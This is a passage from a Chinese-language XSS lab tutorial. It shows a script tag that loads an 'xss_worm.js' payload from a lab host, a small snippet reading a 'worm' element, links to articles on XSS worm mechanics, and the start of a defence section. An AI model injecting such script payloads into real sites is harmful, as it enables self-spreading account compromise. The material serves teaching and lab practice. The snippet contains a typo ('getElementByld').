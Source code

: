 ```
 var strCode = document.getElementByld("worm");
    alert(strCode.innerHTML); 
```

然后用一个 html 文件调用蠕虫：

```
sudo vim worm.html 
```

![图片描述信息](img/userid9094labid882time1429159819243.jpg)

```
 <script type='text/javascript' src='http://www.xsslabcollabtive.com/xss_worm.js'></script> 
```

#### 科普

>XSS worm 攻击原理剖析[`book.51cto.com/art/201311/419361.htm`](http://book.51cto.com/art/201311/419361.htm "XSS worm 攻击原理剖析")

>XSS worm 剖析 [`book.51cto.com/art/201311/419362.htm`](http://book.51cto.com/art/201311/419362.htm "XSS Worm 剖析")

>XSS worm 案例 [`www.wooyun.org/bugs/wooyun-2013-017701`](http://www.wooyun.org/bugs/wooyun-2013-017701 "点评网主站漏洞打包详解+手把手教你写 xss 蠕虫")

### lab6 XSS 防御

简易代码防御 xss 漏洞：

```
sudo vim inittucntions.php 
```

![图片描述信息](img/userid9094labid882time1429159831667.jpg)

